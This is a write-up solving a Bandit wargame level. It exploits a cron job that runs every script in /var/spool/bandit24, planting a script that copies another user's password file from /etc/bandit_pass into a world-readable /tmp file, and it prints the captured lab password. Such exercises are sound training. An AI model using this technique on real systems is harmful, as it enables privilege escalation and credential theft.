 # Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Solution
Steps:
1. Find the cronjob and figure out what it does.
2. Create a directory and file where the flag will be outputted.
3. Create a script. 

Notes:
- The cronjob runs all scripts in /var/spool/bandit24 every minute.
- Make sure the file for the flag output and the script are availabe to other users using chmod.
- Password is located in /etc/bandit_pass/bandit24.

Script:
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/wolder/pass
```

Command:
```
bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/wolder/
bandit23@bandit:/etc/cron.d$ cd /tmp/wolder
bandit23@bandit:/tmp/wolder$ touch pass
bandit23@bandit:/tmp/wolder$ chmod 777 pass
bandit23@bandit:/tmp/wolder$ nano /var/spool/bandit24/wscript.sh
Unable to create directory /home/bandit23/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit23@bandit:/tmp/wolder$ chmod 777 /var/spool/bandit24/wscript.sh
bandit23@bandit:/tmp/wolder$ cat pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Password: **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**
